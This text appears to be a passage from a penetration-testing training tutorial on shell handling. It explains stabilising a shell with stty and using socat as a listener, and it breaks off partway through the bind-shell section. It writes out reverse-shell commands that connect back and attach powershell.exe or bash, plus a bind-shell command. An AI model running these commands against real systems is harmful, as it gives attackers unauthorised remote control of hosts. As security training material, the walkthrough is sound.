 First, open another terminal and run `stty -a`.
This will give you a large stream of output.
Note down the values for "rows" and columns:

Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal,
thus allowing programs such as text editors which rely on such information
being accurate to correctly open.

## Socat

Socat is similar to netcat in some ways, but fundamentally different in many others.
The easiest way to think about socat is as a connector between two points.
In the interests of this room, this will essentially be a listening port and the
keyboard, however, it could also be a listening port and a file, or indeed,
two listening ports. All socat does is provide a link between two points -- much
like the portal gun from the Portal games!

Once again, let's start with reverse shells.

#### Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat.
Here's the syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

As always with socat, this is taking two points
(a listening port, and standard input) and connecting them together.
The resulting shell is unstable, but this will work on either Linux or Windows
and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT>` EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style
standard input and output.

This is the equivalent command for a Linux Target:

`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

#### Bind Shells

On a Linux target we would use the following command:

`socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener:

